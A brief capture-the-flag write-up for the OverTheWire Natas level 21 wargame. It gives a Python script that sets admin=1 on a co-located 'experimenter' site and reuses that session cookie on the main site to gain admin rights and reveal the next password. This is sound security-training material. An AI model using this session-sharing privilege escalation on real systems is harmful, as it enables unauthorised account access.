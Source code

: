 # natas21

This problem is similar to natas20, but we now have to input admin=1 ourselves and match the cookies from experimenter website to the original website. The python code for this is-

```python
import requests

# URLs for both sites
url = 'http://natas21.natas.labs.overthewire.org/index.php'
experimenter_url = 'http://natas21-experimenter.natas.labs.overthewire.org/index.php'

auth = ('natas21', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth

# Step 1: Set the admin variable to 1 on the experimenter site
data = {'admin': '1', 'submit': 'Update'}
response = session.post(experimenter_url, data=data)

# Get the PHPSESSID from the response cookies
phpsessid = response.cookies['PHPSESSID']

# Step 2: Use the same PHPSESSID to view the main site
cookies = {'PHPSESSID': phpsessid}
response = session.get(url, cookies=cookies)

if 'You are an admin' in response.text:
    print('Success! Here is the response:')
    print(response.text)
else:
    print('Failed to get admin access.')
```
We submit admin=1 in the experimenter website which gives us the proper info and cookie, which is now submitted to main url. Since both are colocated, this works and we get our password.
